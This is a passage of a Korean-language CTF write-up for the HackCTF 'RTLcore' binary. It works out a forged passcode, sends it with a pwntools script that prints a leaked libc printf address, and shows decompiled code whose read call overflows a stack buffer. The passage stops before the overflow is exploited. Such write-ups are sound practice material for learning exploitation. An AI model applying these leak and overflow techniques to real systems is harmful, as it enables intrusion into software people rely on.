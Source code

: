 ```python
mac at ubuntu in ~/Desktop/hackCTF/RTLcore
$ python
Python 2.7.17 (default, Nov  7 2019, 10:07:09)
[GCC 7.4.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> hashcode = 0xc0d9b0a7
>>> divide = 0xc0d9b0a7 / 5
>>> print(divide)
647098401
>>> print(hex(divide))
0x2691f021
>>> print(hex(divide * 5))
0xc0d9b0a5
```

이를 5로 나누면 `0x2691f021` 이다.
하지만 다시 5를 곱해보면 2가 부족한 `0xc0d9b0a5`값이 나온다.

따라서 `0x2691f021` * 4 + `0x2691f023`을 전달해보도록 한다.
```python
from pwn import *                                                              
p = process('./rtlcore')                                                                 

payload = ''                                                                             
payload += p32(0x2691f021) * 4                                                           
payload += p32(0x2691f023)                                                               

p.recvuntil('Passcode: ')                                                                
p.sendline(payload)                                                                      
print(p.recv(1024))
```

```bash
mac at ubuntu in ~/Desktop/hackCTF/RTLcore                                               
$ python ex.py                                                                           
[+] Starting local process './rtlcore': pid 3018                                         
코드가 일치하구나. 좋아, 다음 단서를 던져주지                                            
너에게 필요한 것은 바로 0xf7d702d0 일거야
```

굳. 분기문은 통과했다.

분기문을 통과하니 나에게 필요한 것이라며 주소값으로 보이는 16진수를 던져준다.

위 출력내용은 `core` 함수에서 출력했을테니 `core` 함수를 살펴보도록 한다.

```c
ssize_t core()
{
  int buf; // [esp+Ah] [ebp-3Eh]
  int v2; // [esp+Eh] [ebp-3Ah]
  __int16 v3; // [esp+12h] [ebp-36h]
  int v4; // [esp+38h] [ebp-10h]
  void *v5; // [esp+3Ch] [ebp-Ch]

  buf = 0;
  v2 = 0;
  v4 = 0;
  memset(
    (void *)((unsigned int)&v3 & 0xFFFFFFFC),
    0,
    4 * (((unsigned int)((char *)&v2 - ((unsigned int)&v3 & 0xFFFFFFFC) + 46) & 0xFFFFFFFC) >> 2));
  v5 = dlsym((void *)0xFFFFFFFF, "printf");
  printf(&format, v5);
  return read(0, &buf, 0x64u);
}
```
